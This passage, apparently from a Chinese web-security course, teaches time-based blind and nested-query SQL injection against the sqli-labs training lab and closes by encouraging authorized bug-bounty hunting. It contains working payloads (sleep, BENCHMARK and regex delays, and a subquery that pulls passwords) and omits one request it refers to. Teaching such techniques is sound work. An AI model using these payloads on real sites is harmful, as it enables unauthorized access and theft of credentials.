 ```
mysql> select benchmark(10000000,sha(1));
+----------------------------+
| benchmark(10000000,sha(1)) |
+----------------------------+
|                          0 |
+----------------------------+
1 row in set (2.72 sec)
```

（3）**REPEAT(str,count)**：返回字符串 str 重复 count 次后的字符串。

```
mysql> select rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',50),'b');
+-------------------------------------------------------------+
| rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',50),'b') |
+-------------------------------------------------------------+
|                                                           0 |
+-------------------------------------------------------------+
1 row in set (5.92 sec)
```

我们以 sqli-labs 第 2 题为例构造请求：

```
http://localhost/Less-2/?id=1 and sleep(5)
```

在 Chrome 浏览器的 Network 标签内可以看到该请求刚好处时 5 秒钟，说明确实存在漏洞。

![Drawing 12.png](https://s0.lgstatic.com/i/image2/M01/03/A4/CgpVE1_gPWaAOKOTAABkBqvFPw0394.png)

图 13：Chrome 标签内展示

#### 内联/嵌套查询注入

使用内联查询来检索数据，本质上是嵌入在另一个查询中的查询，例如：

```
SELECT (SELECT password from users) from product;
```

以 sqli-labs 第 2 题为例，结合前面介绍的联合查询来构造请求：

通过以上代码我们可以看到 id=2 的用户名和密码，如下图所示：

![Drawing 13.png](https://s0.lgstatic.com/i/image2/M01/03/A4/CgpVE1_gPW-AdtmmAAOCJCqUXmU735.png)

图 14：内联/嵌套查询注入

内联/嵌套查询注入方法可以在一句语句中嵌入另一句语句，在有限漏洞场景下能实现更多的功能，因此在实际的漏洞利用中常被用于实现敏感信息的窃取，甚至执行系统命令。

### 总结

这一讲我主要介绍了 SQL 注入的产生原理、分类，以及相关的测试技术。SQL 注入产生的原因是由于开发对用户的输入数据未做有效过滤，直接引用 SQL 语句执行，导致原本的数据被当作 SQL 语句执行。通常来说，SQL 注入分为数字型和字符型注入，我们主要通过注入参数类型来判断。

我还介绍了 6 大 SQL 注入测试技术，这是挖掘和利用 SQL 注入漏洞的基础，只有掌握这些测试技术，才能进一步提升对 SQL 注入的理解与实践能力。

SQL 注入通常被视为高危或严重的漏洞，一些漏洞奖励平台对此的赏金也会很高，尤其是在国外，经常在 5000 美金以上，甚至有的是几万美金。

在学习之后，你也可以尝试去挖一些国内的 SRC 平台或者国外 HackerOne 平台授权的测试网站。如果你有发现什么有趣的 SQL 注入漏洞，欢迎在留言区分享。

![Lark20201231-135716.png](https://s0.lgstatic.com/i/image/M00/8C/7D/CgqCHl_taF6AUy71AAUbxs9dlU0807.png)
